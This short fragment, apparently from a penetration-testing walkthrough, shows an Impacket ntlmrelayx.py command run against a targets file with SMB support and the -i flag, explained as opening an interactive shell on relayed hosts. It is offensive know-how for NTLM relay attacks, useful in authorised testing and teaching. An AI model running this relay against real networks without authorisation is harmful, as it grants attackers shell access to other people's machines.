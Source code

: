 
```markdown 
Run it as per before only this time add a -i
```

#### Command

```powershell
ntlmrelayx.py -tf targets.txt -smbsupport -i
```

-i stands for interactive, in this case to get an interactive shell


